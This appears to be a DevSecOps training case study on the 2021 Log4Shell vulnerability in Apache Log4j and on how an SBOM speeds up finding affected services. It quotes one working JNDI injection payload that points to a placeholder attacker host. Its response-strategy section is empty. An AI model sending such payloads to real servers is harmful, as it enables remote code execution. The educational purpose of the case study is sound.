

# Case Study 02: The Log4j (Log4Shell) Zero-Day Dependency Crisis

[⬅️ Prev: Leaked AWS Key](./01_Scenario_Hardcoded_AWS_Key_Leaked_in_Git_Commit.md) | [Back to Scenarios](./README.md) | [Next: Malicious Docker Base Image ➡️](./03_Scenario_Malicious_Docker_Base_Image_Supply_Chain.md)

---

### 1. Incident Context
On December 9, 2021, **CVE-2021-44228 (Log4Shell)** was publicly disclosed—a CVSS 10.0 Remote Code Execution flaw in the ubiquitous Apache Log4j Java logging library. Any unauthenticated attacker sending `${jndi:ldap://evil.com/a}` into an HTTP User-Agent header could achieve full root shell control.
Contoso Corporation ran over 300 microservices across AWS and on-premises Kubernetes.

### 2. DevSecOps Rapid Response Strategy

### 3. Engineering Lessons Learned
- Organizations lacking a centralized Software Bill of Materials (SBOM) took **weeks** to figure out which applications contained Log4j.
- Organizations with automated SBOM pipelines identified all vulnerable workloads in **under 15 minutes**.
